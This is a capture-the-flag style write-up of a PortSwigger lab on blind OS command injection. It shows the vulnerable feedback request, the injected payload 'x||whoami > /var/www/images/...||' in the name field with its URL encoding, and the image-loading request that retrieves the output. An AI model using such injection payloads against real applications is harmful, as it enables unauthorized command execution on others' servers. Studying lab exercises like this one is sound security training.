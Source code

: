 # Lab 3 - Blind OS command injection with output redirection

**YouTube video & lab links below:**

[Command Injection - Lab #3 Blind OS command injection with output redirection | Long Version](https://youtu.be/Gf2_UWsYrpM?list=PLuyTk2_mYISK9ywsFZZOT1LuO3Eb7Wq5q)

[Lab: Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

```
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. 
The output from the command is not returned in the response. 
However, you can use output redirection to capture the output from the command. 
There is a writable folder at: /var/www/images/

The application serves the images for the product catalog from this location. 
You can redirect the output from the injected command to a file in this folder, 
and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.
```

### Target Goal - Exploit the blind command injection and redirect the output from the whoami command to the `/var/www/images`


#### Analysis:

**1. Confirm blind command injection: Email Field**

**2. Check where images are store**

**3. Redirect output to file**

**4. Check if file was created**

<br>

## Solution:
### The vulnerable parameter is the name field in the feedback form
at this endpoint: `POST /feedback/submit`

```HTTP
POST /feedback/submit HTTP/2
Host: 0a2f007903dd2e578305105c006200aa.web-security-academy.net
Origin: https://0a2f007903dd2e578305105c006200aa.web-security-academy.net

Referer: https://0a2f007903dd2e578305105c006200aa.web-security-

csrf=sAk5Gg9Qxxvly8VWUAGGuxQyQeYQvzyq&name=Hackerman&email=peter%40normal-user.net&subject=foo&message=bar
```

`&name=Hackerman&`

#### use the same command structure as in the previous lesson
and preceed it with a random letter so that it wont pickup the command, makes it easier
to execute, etc....

```shell
||ping+-c+10+127.0.0.1||
```

But here in this lab it's gonna be:
```shell
x||whoami > /var/www/images/whodatbe.txt||&
```

Then URL encode it, I used the Decoder tab:
```URL
%78%7c%7c%77%68%6f%61%6d%69%20%3e%20%2f%76%61%72%2f%77%77%77%2f%69%6d%61%67%65%73%2f%77%68%6f%64%61%74%62%65%2e%74%78%74%7c%7c
```

Then the end point containing the .txt file you made is located at:
```HTTP
GET /image?filename=21.jpg
```

It can be any jpg number, that's irrelevant, cause you're gonna change the .jpg file name
to the name of the file you created that contains the output of `whoami` , and that will look like
```HTTP
GET /image?filename=whodatbe.txt HTTP/2
Host: 0a2f007903dd2e578305105c006200aa.web-security-academy.net
```

and the response should be
```HTTP
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Set-Cookie: session=CsuBhNTngZrmPSJAreEo9oFnWjh80WCd; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 13

peter-WKMu36
```

**And BOOM !**
you are `peter-WKMu36`

--Done--
